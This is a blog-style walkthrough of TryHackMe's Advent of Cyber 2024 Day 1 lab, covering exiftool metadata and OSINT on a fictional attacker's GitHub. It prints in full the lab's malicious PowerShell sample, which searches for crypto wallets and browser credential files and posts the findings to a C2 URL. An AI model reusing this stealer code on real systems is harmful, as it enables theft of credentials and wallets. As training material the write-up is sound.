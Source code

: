 ```yaml
---
title: THM Advent of Cyber 2024
author: hanhctf
date: 2024-12-01 00:00:00 +0000
categories: [Advent of Cyber 2024, THM]
tags: []
toc: true
mermaid: true
---
```


# [**Advent of Cyber 2024**](https://tryhackme.com/r/room/adventofcyber2024)

Hello all, welcome back to the Advent of Cyber 2024.

# Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

**Question 1: Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author?**

Run `exiftool song.mp3`, we can see information of the `song.mp3` file.

```shell
┌──(kali㉿kali)-[~/thm/AoC2024/Day1]
└─$ exiftool song.mp3 
ExifTool Version Number         : 13.00
File Name                       : song.mp3
Directory                       : .
File Size                       : 4.6 MB
File Modification Date/Time     : 2024:10:24 09:50:46-04:00
File Access Date/Time           : 2024:12:02 05:34:31-05:00
File Inode Change Date/Time     : 2024:12:02 05:34:12-05:00
File Permissions                : -rwxrwxr-x
File Type                       : MP3
File Type Extension             : mp3
MIME Type                       : audio/mpeg
MPEG Audio Version              : 1
Audio Layer                     : 3
Audio Bitrate                   : 192 kbps
Sample Rate                     : 44100
Channel Mode                    : Stereo
MS Stereo                       : Off
Intensity Stereo                : Off
Copyright Flag                  : False
Original Media                  : False
Emphasis                        : None
ID3 Size                        : 2176
Artist                          : Tyler Ramsbey
Album                           : Rap
Title                           : Mount HackIt
Encoded By                      : Mixcraft 10.5 Recording Studio Build 621
Year                            : 2024
Genre                           : Rock
Track                           : 0/1
Comment                         : 
Date/Time Original              : 2024
Duration                        : 0:03:11 (approx)
```

**Answer 1:** *`Tyler Ramsbey`*

**Question 2:The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?**

Look at the malicious PowerShell script.

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```

**Answer 2:** *`http://papash3ll.thm/data`*

**Question 3: Who is M.M? Maybe his Github profile page would provide clues?**

Access the Github profile of [MM-WarevilleTHM](https://github.com/MM-WarevilleTHM), we see:

![](/commons/THM/AoC2024/Day1/0_github.png)

**Answer 3:** *`Mayor Malware`*

**Question 4: What is the number of commits on the GitHub repo where the issue was raised?**

Searching the Source
There are many paths we could take to continue our investigation. We could investigate the website further, analyse its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

However, for this room, we'll try something a bit different. Since we already have the PowerShell code, searching for it online might give us useful leads. It's a long shot, but we'll explore it in this exercise.

There are many places where we can search for code. The most widely used is Github. So let's try searching there.

To search effectively, we can look for unique parts of the code that we could use to search with. The more distinctive, the better. For this scenario, we have the string we've uncovered before that reads:

**"Created by the one and only M.M."**

![](/commons/THM/AoC2024/Day1/1_github.png)

**Answer 4:** *`1`*